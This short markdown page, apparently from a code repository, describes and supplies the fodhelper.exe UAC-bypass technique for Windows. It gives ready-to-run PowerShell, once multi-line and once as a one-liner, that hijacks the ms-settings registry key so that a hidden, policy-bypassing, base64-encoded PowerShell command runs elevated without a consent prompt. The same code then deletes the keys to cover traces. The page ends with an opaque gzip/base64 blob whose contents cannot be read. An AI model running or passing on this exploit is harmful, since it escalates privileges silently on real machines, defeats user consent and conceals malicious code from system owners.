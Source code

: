 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

<p></p>

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
or
```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command";reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f;reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f;fodhelper.exe;Start-Sleep -s 3;reg delete "HKCU\Software\Classes\.hacker\" /f;reg delete "HKCU\Software\Classes\ms-settings\" /f;
```

```
H4sIAP+TIWYC/4WPsW7CMBRFf+XJymoydERdmhYCbYESFRYvjn1DADexbLdJ+XpIBFLLAMub7r3nvGg0nm7nSJfPH+/tstk/Mls3cL6EMQO0IN5QSXxWL7pTTYi/tFD09Gul98RRKYp+xjI/rHfqbZev2dBhQ1JrYulr8imyugiNdBCJORXgxaCUag8nso4g5haV+NenWFN0JUVxcW/2y3OPELbVxovk263g+iV2xrFuoqj1CWrhuseGWZAu8MwAlrinh56gYRBwz51dhG7H/zr1lSNEJGlObQEAAA==
```

